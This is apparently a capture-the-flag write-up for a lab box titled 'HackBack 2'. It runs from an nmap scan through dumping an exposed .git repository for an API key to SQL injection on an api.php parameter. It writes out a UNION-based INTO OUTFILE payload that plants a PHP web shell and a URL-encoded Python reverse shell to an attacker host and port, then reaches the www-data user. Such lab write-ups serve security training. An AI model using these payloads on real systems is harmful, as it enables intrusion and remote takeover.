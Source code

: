 # NMAP

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e:11:d6:ab:cc:f2:71:c8:40:e2:1d:97:07:09:6b:eb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvGF7If+TAlknFH/FDMXkhsCJ42eZhvyt/mFDlFw/JyFIWnzTarhTH8MU1o7qrTUUJ3YnlQhu2kjOVlgkL+r48ibhfkzoEmNAIy54kxFLXaC7hFkOpYPehtfCBvxzehclToZq8nsaECbPgEFFOUiFIdQ3yo87CHR1aWeaYh9KdrdObyWUsPRKqNHwVTXXUNhwlLsoJZDJccbH56rdGOpRf3oP1qqWfCUnMDN55o8fkgW0tVLdRFxvuRmlOKdEdCEB6VEDsp2z/QFtuDDSCGPwo1XDqp5SLRGIc+LKhAQZHhnBShaXmnvwLShGLqaU0EAzIBQ96dvNkkTAvZAzazMcN
|   256 cd:d6:f0:67:0e:1b:b3:2c:99:9f:7b:bb:70:42:b5:a5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLaioJd8smxzz0s9lMNoVu95NxoazDCi+ZMZ+sdxtPCiGpesRMmBZjyav7T4REZyqPR6vrvKymnnRio09JGuE6E=
|   256 e1:70:d2:f4:c9:73:6c:f0:d8:1f:d4:d8:a0:9f:8c:fc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsWZhy909do/TDDtLBrrwcU2A6mW99pJq4zV7IT2bG7
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.245.245:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: added mobile apk for beta testing. 
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Context Information Security - HackBack 2
```

# Enumeration

**SSH Version Username Enumeration Exploit**
![image](https://user-images.githubusercontent.com/68326057/124961295-e59e1680-e03a-11eb-80d9-2eac65e35eeb.png)

## *PORT 80*

![image](https://user-images.githubusercontent.com/68326057/124961586-4a597100-e03b-11eb-930c-b5428762face.png)

```bash
$file config ;cat config 

config: ASCII text
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Context Information Security
        email = recruitment@contextis.com
```


On /info.php

![image](https://user-images.githubusercontent.com/68326057/124961899-a45a3680-e03b-11eb-898b-fb0f29a6a092.png)

Linux version is `4.4.0-1095` , This is an older version of Linux which can be easily exploited.

## Enumerating GIT

https://github.com/bl4de/research/tree/master/hidden_directories_leaks#hidden-directories-and-files-as-a-source-of-sensitive-information-about-web-application

I found this --> http://10.10.245.245/.git/logs/HEAD

![image](https://user-images.githubusercontent.com/68326057/124979690-feb1c200-e050-11eb-8ff8-5ca87c892049.png)

```bash
$cat HEAD | cut -d ' ' -f 2

152b2d9976cd37a68fd462af8e4ce21356b5485e
93bab0a450caaa8c4d2632703636eccc69062bb4
79c9539b6566b06d6dec2755fdf58f5f9ec8822f
b2f776a52fe81a731c6c0fa896e7f9548aafceab
04f1f411857cc972ae8ed5efcffa298f5f6168fb
fee5595bb2ba1d1ab005ec3de98367fe5d021e9f
6db3cf70b469de942f2f529166088cdfbbd5f764
```

**NOTE:- The first two letter named as a directory**

So I downloaded all commits.

I used thi tool:-

https://github.com/lijiejie/GitHack

```bash
[+] Download and parse index file ...
CTX_WSUSpect_White_Paper.pdf
Context_Red_Teaming_Guide.pdf
Context_White_Paper_Pen_Test_101.pdf
Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
Glibc_Adventures-The_Forgotten_Chunks.pdf
api.php
functions.php
home.php
index.php
info.php
[OK] api.php
[OK] functions.php
[OK] home.php
[OK] index.php
[OK] info.php
[OK] Context_White_Paper_Pen_Test_101.pdf
[OK] CTX_WSUSpect_White_Paper.pdf
[OK] Glibc_Adventures-The_Forgotten_Chunks.pdf
[OK] Context_Red_Teaming_Guide.pdf
[OK] Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
```

![image](https://user-images.githubusercontent.com/68326057/124985436-07f25d00-e058-11eb-8066-0f759942b781.png)


Now I have the key I visited that site

http://10.10.245.245/api.php?apikey=WEBLhvOJAH8d50Z4y5G5

![image](https://user-images.githubusercontent.com/68326057/124985991-b7c7ca80-e058-11eb-9afa-f2837f41fc00.png)


http://10.10.245.245/api.php?apikey=WEBLhvOJAH8d50Z4y5G5&documentid=1

![image](https://user-images.githubusercontent.com/68326057/124986042-cb733100-e058-11eb-8d1f-a2d131b24135.png)

![image](https://user-images.githubusercontent.com/68326057/124986098-dd54d400-e058-11eb-90b4-3b574c44e2af.png)

So it is using sql connection.

Since we know `documentid` is the only thing using sql I tested it

## SQL INJECTION

![image](https://user-images.githubusercontent.com/68326057/124986468-40df0180-e059-11eb-843d-becd7df275ef.png)

So it is using MYSQL


![image](https://user-images.githubusercontent.com/68326057/124988356-84d30600-e05b-11eb-8a18-590d2c7acb53.png)


API key is Using this function

![image](https://user-images.githubusercontent.com/68326057/124988668-e5fad980-e05b-11eb-923d-9a89a8e6f919.png)


![image](https://user-images.githubusercontent.com/68326057/124988746-0034b780-e05c-11eb-9be8-9817d575e151.png)

I made my payload by analysing the above code.

![image](https://user-images.githubusercontent.com/68326057/124997919-1d23b780-e069-11eb-9647-ec5cd647aefc.png)


```bash
http://10.10.20.199/api.php?apikey=WEBLhvOJAH8d50Z4y5G5&documentid=1 order by 3
```

but it will not shows the result.

![image](https://user-images.githubusercontent.com/68326057/124998564-46911300-e06a-11eb-8a9f-eecda4fb8baa.png)

But it is executing the code.

```bash
http://10.10.20.199/api.php?apikey=WEBLhvOJAH8d50Z4y5G5&documentid=1%20union%20all%20select%201,2,@@version into outfile '/var/www/html/whoami.html
```

what it does it execute the query and stores in ip/whoami.html

![image](https://user-images.githubusercontent.com/68326057/124999370-96240e80-e06b-11eb-9581-eb4f6aceac30.png)


YESSS!!

Now it is time for code Execution

```bash
http://10.10.20.199/api.php?apikey=WEBLhvOJAH8d50Z4y5G5&documentid=1 union all select 1,2,"<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/rev.php"
```

![image](https://user-images.githubusercontent.com/68326057/124999761-7c36fb80-e06c-11eb-8711-658527dc84d4.png)

!! BOOM!!


```bash
http://10.10.20.199/rev.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22IP%22,9001));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27

```

![image](https://user-images.githubusercontent.com/68326057/125000553-4a269900-e06e-11eb-8ba4-85f272beb7d5.png)


# USER WWW-DATA

First Thing I did is I connected with mysql
![image](https://user-images.githubusercontent.com/68326057/125000735-aee1f380-e06e-11eb-8db1-1552e169e2ba.png)


![image](https://user-images.githubusercontent.com/68326057/125000899-0bdda980-e06f-11eb-8a31-804a4693bc50.png)


![image](https://user-images.githubusercontent.com/68326057/125000986-40e9fc00-e06f-11eb-9c6f-ce8f93696752.png)


